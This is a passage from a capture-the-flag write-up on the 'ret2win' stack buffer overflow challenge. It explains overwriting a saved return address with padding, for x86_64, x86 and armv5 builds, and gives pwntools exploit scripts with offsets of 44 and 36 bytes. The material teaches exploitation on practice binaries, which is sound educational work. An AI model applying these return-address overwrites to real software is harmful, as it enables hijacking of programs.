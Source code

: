This is the script that print for us the flag for the x86_64 version. The payload is only a padding of size 40 bytes (the offset calculated
before) and then the address of the ret2win function. 

**doing that when the pwnme function return instead returning to main it jump to the ret2win function**

this because we can see the **ret** function as: **pop eip** and so when return it pop into the register eip the value of the ret2win function
and so the program continue with the execution of the ret2win function.

# x86 (32 bit) architecture

In this case the offset is 44 bytes, and the payload is the same but with the different offset. The little script abow for calucating 
the offset work well also in this situation.

This is the script in order to print the flag.

```python
from pwn import *
offset = 44
context.binary = elf = ELF('./ret2win32')

p = elf.process()

payload = b'A'*offset + p32(elf.sym['ret2win'])

p.recv()
p.sendline(payload)
log.info(p.recvall())
```



# armv5 (32 bit) architecture
in this case we have an offset of 36 bytes. Same script but with a different offset:


```python
from pwn import *
context.binary = elf = ELF('./ret2win_armv5')

offset = 36
payload = b'V'*offset + p32(elf.sym['ret2win'])

p = elf.process()

p.recv()
p.sendline(payload)
log.info(p.recvall())
```


